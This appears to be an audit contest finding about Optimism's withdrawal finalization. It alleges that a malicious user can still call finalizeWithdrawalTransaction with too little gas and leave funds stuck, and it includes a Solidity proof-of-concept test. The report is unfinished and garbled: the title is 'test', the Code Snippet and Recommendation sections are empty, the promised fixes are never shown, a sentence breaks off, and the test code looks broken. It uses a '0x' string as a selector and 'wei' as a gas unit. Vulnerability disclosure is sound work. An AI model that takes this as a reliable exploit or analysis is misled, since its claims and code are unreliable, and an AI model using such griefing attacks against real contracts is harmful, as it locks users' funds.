 ShadowForce

high

# test

## Summary
Malicious user can finalize other’s withdrawal with less than specified gas limit, leading to loss of funds even after the fix
## Vulnerability Detail
This is a high vulnerability which was present in the previous contest. Although it has received a fix, the issue still remains even after said fix. Let me demonstrate how that is below.

Like the previous report said. :"Withdrawals can be initiated directly from the L2ToL1MessagePasser contract on L2. These withdrawals can be withdrawn directly from the OptimismPortal on L1. This path is intended to be used only by users who know what they are doing, presumably to save the gas of going through the additional more “user-friendly” contracts.
"

The issue is in the fix. while the fix was supposed to ensure that the previous bug was fixed. Even after the fix, the bug remains, we just have to do more gas tweaking to achieve the desired result.

below are the fixes the team has deployed
## Impact
A malicious user can call `finalizeWithdrawalTransaction()` on behalf of a user with enough gas to pass checks but not enough for execution to succeed even after the fix that was implemented.
## Code Snippet

## Proof Of Concept

below is a test that demonstrates how a maliciouse user can still specify a gas that can pass checks but also reverts which will cause a user's funds to be stuck
```solidity
 function testOutOfGas() public {

        address bob = address(1231231243);

        console.log(bob.balance);

        uint256 minGasLimit = 30000 wei;

        address sender = address(this);

        address target = bob;

        bytes memory message = abi.encodeWithSelector(
            '0x',
            messager,
            4,
            sender,
            target,
            1 ether,
            minGasLimit
        );

         messager.relayMessage{value: 1 ether, gas: 30000 wei}(
            4,
            sender,
            target,
            1 ether,
            minGasLimit,
            message
        );

        console.log(bob.balance);

    }
```
in the test above when we set gas to
## Tool used

Manual Review

## Recommendation
